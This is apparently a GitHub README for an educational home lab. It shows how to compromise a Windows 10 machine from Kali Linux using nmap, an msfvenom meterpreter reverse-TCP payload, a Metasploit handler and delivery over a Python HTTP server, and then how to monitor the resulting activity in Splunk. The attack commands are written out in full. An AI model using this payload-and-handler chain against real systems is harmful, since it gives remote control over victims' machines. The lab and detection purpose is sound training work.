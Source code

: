 # HomeLab Setup for Kali Linux and Windows 10

This repository provides a step-by-step guide on how to set up a HomeLab environment for Kali Linux and Windows 10 for educational and research purposes. In this setup, we will configure both machines to be in the same network, and we'll turn off Windows Firewall and Windows Defender to facilitate penetration testing and ethical hacking activities.

## Prerequisites

Before proceeding with the setup, ensure the following prerequisites are met:

1. Both the Kali Linux and Windows 10 machines are connected to the same network.
2. Windows Firewall and Windows Defender are turned off on the Windows 10 machine.

## HomeLab Setup Steps

Follow these steps to create your HomeLab environment:

### 1. Network Scanning

Scan the network of the Windows 10 machine using the `nmap` tool to identify open ports. Use the following command, replacing `(ip address of Windows machine)` with the actual IP address of the Windows 10 machine:

```bash
nmap -A (ip address of Windows machine) -Pn
```

### 2. Payload Selection

List the available payloads using the `msfvenom` tool to create a malware payload. Use the following command:

```bash
msfvenom -l payloads
```

Choose a suitable payload; for example, select `windows/x64/meterpreter_reverse_tcp`.

### 3. Malware Creation

Create the malware payload using the selected payload type. Replace `(ip address of attacking machine)` with the IP address of your Kali Linux machine and `(filename.exe)` with your desired filename:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=(ip address of attacking machine) LPORT=4444 -f exe -o (filename.exe)
```

### 4. Set Up the Handler

Open the Metasploit framework handler to listen on the specified port for the configured malware. Follow these steps:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST (ip address of Kali Linux)
exploit
```

The handler is now listening to accept connections from the victim machine.

### 5. Host the Malware

To make the Windows 10 machine the victim, set up an HTTP server using Python. Run the following command to host the malware on a local web server:

```bash
python3 -m http.server 9999
```

### 6. Victim Machine Execution

On the Windows 10 machine, download the malicious exploit by visiting the website created by the Python HTTP server.

### 7. Monitor and Control

After executing the malware, you can monitor the compromised Windows machine's status. In Kali Linux, you will see all the commands to be executed on the targeted Windows machine, as it is now under Kali's control.

### Second Part

Splunk Enterprise Setup and Log Monitoring Guide

Prerequisites
Splunk Enterprise: Ensure Splunk Enterprise is downloaded and installed on your system.
Meterpreter: Access to Meterpreter on Kali Linux.

Steps to Follow:
Install Splunk Enterprise:

Follow Splunk's official installation guide for your operating system.

Access Splunk via Local Host:

Open your web browser and access Splunk at localhost:8000.
Log in using the credentials created during installation.
Generate Logs with Meterpreter:

In Kali Linux, use Meterpreter to execute specific commands.
Monitor the generated logs in Splunk.
Execute Malware on Windows:

Run malware on the Windows machine to create logs.
Review detailed process logs in Splunk, showcasing the affected activities and processes.
Video Reference:
For a visual guide and demonstration, refer to this Video Link - Log Monitoring with Splunk.


Additional Notes:
Configure Splunk to collect and index logs from both Kali Linux and the Windows machine.
For detailed configuration, troubleshooting, and specific log types, consult Splunk's official documentation and community forums.
The video serves as a visual guide for the steps mentioned in this README file.
